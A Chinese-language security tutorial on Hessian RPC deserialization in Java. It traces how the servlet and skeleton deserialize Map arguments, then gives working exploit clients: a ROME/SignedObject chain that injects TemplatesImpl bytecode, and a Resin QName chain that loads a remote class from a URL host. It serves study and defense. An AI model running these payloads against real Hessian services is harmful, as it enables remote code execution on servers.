# 0x01 What Is Hessian

Hessian是一个二进制的web service协议，用于实现RPC

RPC：Remote Procedure Call 远程过程调用。

对于Java来说和RMI差不多（RMI就是RPC的一种具体实现），就是远程方法调用。

RPC框架中的三个角色：

* Server
* Client
* Registry

RPC的主要功能目标是让构建**分布式应用**更加容易

```xml
<dependency>
    <groupId>com.caucho</groupId>
    <artifactId>hessian</artifactId>
    <version>4.0.63</version>
</dependency>
```

## Class Architecture



* `AbstractSerializerFactory`：抽象序列化器工厂，是管理和维护对应序列化/反序列化机制的工厂。
  * `SerializerFactory`：标准实现
  * `ExtSerializerFactory`：可以设置自定义的序列化机制
  * `BeanSerializerFactory`：对`Serializer`默认`Object`的序列化机制进行强制指定为`BeanSerializer`

序列化器工厂肯定是作为IO流对象的成员去使用



`Hessian`的有几个默认实现的序列化器，当然也有对应的反序列化器





## Hessian ⚔ Build-in

`Hessian`反序列化和原生反序列化有啥区别呢？

```java
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

public class Person implements Serializable {
    public String name = "taco";
    public int age = 18;

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }

    private void readObject(ObjectInputStream ois) throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}
```

原生反序列化：

```java
ByteArrayOutputStream baos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baos);
oos.writeObject(new Person());
oos.close();

ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
ois.readObject();
```

Hessian：

```java
ByteArrayOutputStream baos = new ByteArrayOutputStream();
Hessian2Output oos = new Hessian2Output(baos);
oos.writeObject(new Person());
oos.close();

Hessian2Input ois = new Hessian2Input(new ByteArrayInputStream(baos.toByteArray()));
ois.readObject();
```

原生反序列化能弹出计算器，`Hessian`就不能

说明`Hessian`反序列化不会自动调用反序列化类的`readObject()`方法

因此JDK原生的`gadget`在`Hessian`反序列化中不能直接使用

实际上，`Hessian`序列化的类甚至可以不需要实现`Serializable`接口

🎃慢慢看下去咯

# 0x02 Hessian At Your Service

## Servlet Based

通过把提供服务的类注册成Servlet进行访问

### Server

```java
public interface Greeting {
    String sayHi(HashMap o);
}
```

```java
package org.taco.hessian;

import com.caucho.hessian.server.HessianServlet;

import javax.servlet.annotation.WebServlet;
import java.util.HashMap;

@WebServlet("/hessian")
public class Hello extends HessianServlet implements Greeting {
    public String sayHi(HashMap o) {
        return "Hi" + o.toString();
    }
}
```

服务类需要实现服务接口，且继承`com.caucho.hessian.server.HessianServlet`

### Client

```javascript
import com.caucho.hessian.client.HessianProxyFactory;

import java.net.MalformedURLException;
import java.util.HashMap;

public class Client {
    public static void main(String[] args) throws MalformedURLException {
        String url = "http://localhost:8080/hessian";

        HessianProxyFactory factory = new HessianProxyFactory();
        Greeting greet = (Greeting) factory.create(Greeting.class, url);

        HashMap o = new HashMap();
        o.put("taco", "black");

        System.out.println(greet.sayHi(o));  // Hi{taco=black}
    }
}
```

客户端通过`com.caucho.hessian.client.HessianProxyFactory`创建对应接口的代理对象。

## Spring Based

```java
package com.example.hessian_server.config;

import com.example.hessian_server.service.Greeting;
import com.example.hessian_server.service.Hello;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.remoting.caucho.HessianServiceExporter;

import javax.annotation.Resource;

@Configuration
public class HessianConfig {
    @Resource
    private Hello hello;

    @Bean(name = "/hessian")
    public HessianServiceExporter HiService() {
        HessianServiceExporter exporter = new HessianServiceExporter();
        exporter.setService(hello);
        exporter.setServiceInterface(Greeting.class);
        return exporter;
    }
}
```

```java
package com.example.hessian_server.service;

import org.springframework.stereotype.Service;

import java.util.HashMap;

@Service
public class Hello implements Greeting{
    @Override
    public String sayHi(HashMap o) {
        return "Hi " + o.toString();
    }
}
```

```java
package com.example.hessian_server.service;


import java.util.HashMap;

public interface Greeting {
    String sayHi(HashMap o);
}
```

Spring-Web 包提供了 `org.springframework.remoting.caucho.HessianServiceExporter` 用来暴露远程调用的接口和实现类。使用该类 export 的 Hessian Service 可以被任何 Hessian Client 访问

# 0x03 Deep Source

## Server

```java
package org.taco.hessian;

import com.caucho.hessian.server.HessianServlet;

import javax.servlet.annotation.WebServlet;
import java.util.HashMap;

@WebServlet(value = "/hessian", loadOnStartup = 1)
public class Hello extends HessianServlet implements Greeting {
    public String sayHi(HashMap o) {
        return "Hi" + o.toString();
    }
}
```

`HessianServlet`是`HttpServlet`的子类



* `_homeAPI`：调用类的接口Class
* `_homeImpl`：接口的实现类的实例
* `_serializerFactory`：序列化工厂

`loadServlet` => `initServlet` => `HessianServlet#init`



上面的初始化参数是通过xml配置或注解传入给`HessianServlet`

我们这里没有配置初始化参数，将`this`（Hello对象）赋值给`_homeImpl`，`_homeAPI=_homeImpl.getClass()`

`_objectAPI`和`_objectImpl`均为null



别忘了`HessianServlet`是`HttpServlet`的子类，当请求到来时会触发`Servlet`的`service`方法



序列化工厂默认是`SerializerFactory`

进入`HessianServlet#invoke`



根据`objectId`是否空决定调用`_objectSkeleton`还是`_homeSkeleton`的invoke

和RMI一样，服务端也是采用了`Skeleton`代理的设计概念

（`HessianSkeleton#invoke`）



判断了使用哪种协议进行数据交互（hessian/hessian2/混用）

📌注意看这里`in`由`HessianFactory#createHessianInput`获取，也就得到一个`HessianInput`

`out`由`HessianFactory#createHessian2Output`获取，得到`Hessian2Output`

后面的`readObject`和`writeObject`就是基于这两个输入输出对象

创建好输入输出流后，设置其序列化器工厂，继续`invoke`



这里看到多出了一个`_service`对象，正是我们的`Hello`对象，它是`HessianSkeleton`的属性

`HessianSkeleton`是`AbstractSkeleton`的子类，对Hessian提供的服务进行封装



`AbstractSkeleton`初始化时将接口中的方法和方法名（实际上还对方法名进行了一些变换，如方法名__参数类型长度）保存在`_methodMap`

`HessianSkeleton`初始化时将实现类对象保存到`_service`成员中



回到`HessianSkeleton#invoke`



读取方法名（methodName），查找调用方法（getMethod）



根据参数类型**反序列化参数值**（对，就是这里调用了`HessianInput#readObject`），对`service`调用`invoke`，将调用结果写到返回流中。

总结：

* `HessianServlet`初始化时获取到服务接口和实例对象
* 作为一个`Servlet`，请求到来时触发`service`方法，准备远程方法调用`invoke`
* `HessianSkeleton`根据请求流读取方法名、方法参数，调用方法后将结果写到返回流中

## Deserialize

跟进`HessianInput#readObject`

`reader = _serializerFactory.getDeserializer(cl);`获取反序列化器


试图从缓存中获取，`loadDeserializer`获取后放入缓存


根据方法参数类型来决定使用哪个反序列化器，这里返回`MapDeserializer`

接着执行`reader.readMap(this);`

```java
Map map;
if (_type == null)
    map = new HashMap();
else if (_type.equals(Map.class))
    map = new HashMap();
else if (_type.equals(SortedMap.class))
    map = new TreeMap();
// ....
while (! in.isEnd()) {
    map.put(in.readObject(), in.readObject());  // in: HessianInput
}
```

对键值对分别反序列化，再放入`map`

根据`MapDeserializer`的`_type`决定使用`HashMap`还是`TreeMap`（`MapDeserializer`的构造函数把传入的参数类型赋值给了`_type`，实际上`_type`就是远程调用方法的参数类型）

👉注意看，**漏洞source点就在这了**

`map.put`对于`HashMap`会触发`key.hashCode()`，而对于`TreeMap`会触发`key.compareTo()`

经过之前反序列化的~~bei du da~~（学习），应该能很快反应出来（`CC6`、`ROME`都用到了`hashCode`）

那我们目标就明确了

🚩**以Map为载体，构造恶意的方法调用参数，服务端会解析请求中的方法参数，触发`hashCode`、`compareTo`方法**

💦限制：远程方法接口的参数要有`Map`类型

现在回答上面的问题，为什么`Hessian`反序列化不会执行类的`readObject`方法？那它是如何反序列化出一个对象的？

上面反序列化`Person`时，默认反序列化器为`UnsafeDeserializer`



这里直接获取了这个类的`Fields`，再赋值给初始化的`Person`对象，所以就没有触发我们自定义的`readObject`了。



## Client

```java
String url = "http://localhost:8080/hessian";

HessianProxyFactory factory = new HessianProxyFactory();
Greeting greet = (Greeting) factory.create(Greeting.class, url);

HashMap o = new HashMap();
o.put("taco", "black");

System.out.println(greet.sayHi(o)); 
```

`HessianProxyFactory#create`返回一个代理对象



所以无论调用啥方法都会走到`HessianProxy#invoke`方法，



获取了方法名和方法参数类型，将方法和方法名放入`_mangleMap`



发送请求获取连接对象，读取协议标志`code`，根据协议标志选择使用`Hessian/Hessian2`读取，最终断开连接。






执行`Hessian2Input#readObject`


## Non-Trivial Details

* 序列化时，先获取序列化器，这时候就会判断该类是否实现`Serializable`接口。但若开启`_isAllowNonSerializable`就没有这个限制



* 序列化时通过反射获取Field的值，若属性被static或transient修饰，不参与序列化



Hessian可以配合以下来利用：

- Rome
- XBean
- Resin
- SpringPartiallyComparableAdvisorHolder
- SpringAbstractBeanFactoryPointcutAdvisor

# 0x04 SignedObject 反序二逝

Rome利用链中的`TemplatesImpl`由于其`_tfactory`被`transient`修饰，在Hessian中无法进行序列化。为啥之前可以打出来？因为`TemplatesImpl`重写了`readObject`方法，在`readObject`中给`_tfactory`赋值了，而在`Hessian`中反序列化后`_tfactory`就为null（`TemplatesImpl`那条链的`defineTransletClasses`要求`_tfactory`不为空，否则抛出异常）



Introducing~ `java.security.SignedObject#getObject`

```java
public final class SignedObject implements Serializable {
        public SignedObject(Serializable object, PrivateKey signingKey,
                        Signature signingEngine)
        throws IOException, InvalidKeyException, SignatureException {
            // creating a stream pipe-line, from a to b
            ByteArrayOutputStream b = new ByteArrayOutputStream();
            ObjectOutput a = new ObjectOutputStream(b);

            // write and flush the object content to byte array
            a.writeObject(object);
            a.flush();
            a.close();
            this.content = b.toByteArray();
            b.close();

            // now sign the encapsulated object
            this.sign(signingKey, signingEngine);
    }
        public Object getObject()
        throws IOException, ClassNotFoundException
    {
        // creating a stream pipe-line, from b to a
        ByteArrayInputStream b = new ByteArrayInputStream(this.content);
        ObjectInput a = new ObjectInputStream(b);
        Object obj = a.readObject();
        b.close();
        a.close();
        return obj;
    }
}
```

也是配合`ROME`去打，`toStringBean`触发`SignedObject#getObject`，进而反序列化`this.content`

这里就是原生反序列化了，而且刚好`SignedObject`的构造方法会帮我们序列化。

```java
import com.caucho.hessian.client.HessianProxyFactory;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.security.*;
import java.util.HashMap;


public class Client {
    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }

    public static void main(String[] args) throws Exception {
        String url = "http://localhost:8080/hessian";

        HessianProxyFactory factory = new HessianProxyFactory();
        Greeting greet = (Greeting) factory.create(Greeting.class, url);

        byte[] code = ClassPool.getDefault().get(Evil.class.getName()).toBytecode();
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{code});
        setFieldValue(obj, "_name", "p4d0rn");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        ToStringBean bean = new ToStringBean(Templates.class, obj);

        // BadAttributeValueExpException构造函数会触发toString()
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
        setFieldValue(badAttributeValueExpException, "val", bean);
        
        KeyPairGenerator keyPairGenerator;
        keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");

        SignedObject signedObject = new SignedObject(badAttributeValueExpException, privateKey, signingEngine);

        ToStringBean toStringBean = new ToStringBean(SignedObject.class, signedObject);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        ObjectBean fakeBean = new ObjectBean(String.class, "p4d0rn");  // 传入无害的String.class
        HashMap map = new HashMap();
        map.put(fakeBean, 1);  // 注意put的时候也会执行hash
        setFieldValue(fakeBean, "_equalsBean", equalsBean);

        greet.sayHi(map);
    }
}
```

# 0x05 Resin

`HashMap#put`会调用`key.equals(k)`，对比两个对象

`com.sun.org.apache.xpath.internal.objects.XString#equals`



`QName`是`Resin`对上下文`Context`的一种封装，它的`toString`方法会调用其封装类的`composeName`方法获取复合上下文的名称。

`com.caucho.naming.QName#toString`



`javax.naming.spi.ContinuationContext#composeName `



跟进`getTargetContext`，调用 `NamingManager#getContext`



跟进`NamingManager#getContext`



`getObjectFactoryFromReference`



使用URLClassLoader进行加载



```java
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;

import javax.naming.CannotProceedException;
import javax.naming.Context;
import javax.naming.Reference;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;

public class Client {
    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }
    public static void main(String[] args) throws Exception {
        XString xString = new XString("p4d0rn");
        Class contextClass = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor constructor = contextClass.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        constructor.setAccessible(true);
        CannotProceedException cpe = new CannotProceedException();
        cpe.setResolvedObj(new Reference("calc", "calc", "http://127.0.0.1:8088/"));
        Context context = (Context) constructor.newInstance(cpe, new Hashtable());
        QName qName = new QName(context, "x", "y");
        HashMap map = new HashMap();
        xString.equals(qName);
    }
}
```

# Reference

[Hessian 反序列化知一二 | 素十八](https://su18.org/post/hessian/)
